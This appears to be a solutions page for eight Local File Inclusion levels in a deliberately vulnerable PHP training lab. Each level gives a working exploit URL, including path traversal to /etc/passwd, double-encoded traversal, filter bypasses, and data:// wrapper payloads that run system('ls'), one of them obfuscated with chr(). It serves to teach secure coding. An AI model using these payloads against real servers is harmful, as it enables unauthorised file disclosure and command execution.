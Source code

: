 ## Level 1

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_1.php?file=/etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. 

## Level 2

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_2.php?file=...//index`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The string replacement here is unsufficient because you can still change directories.

## Level 3

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_3.php?file=../../../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. We can still change directories.


## Level 4

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_4.php?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The urldecode() call is risky and should not be called with $\_GET or $\_REQUEST (see [PHP documentation](https://www.php.net/manual/fr/function.urldecode.php) for details).

## Level 5

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_5.php?file=data://text/plain;charset=utf-8,<?php system('ls');//index`

**Impact (with allow_url_include=On):** Execute arbitrary system commands on HTTP server. 


## Level 6

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_6.php?file=./uploads_eede.php/../../../../../../../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. We can still change directories.


## Level 7

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_7.php?file=/.pdf/../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The use of '==' is incorrect, it should be '===' or '!==' when using strpos() (see [PHP documentation](https://www.php.net/manual/en/function.strpos.php) for details).



## Level 8

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_8.php?file=data://text/plain;charset=utf-8,%253C?php%20system(chr(0x6c).chr(0x73));//index.pdf`

**Impact (with allow_url_include=On):** Execute arbitrary system commands on HTTP server. 




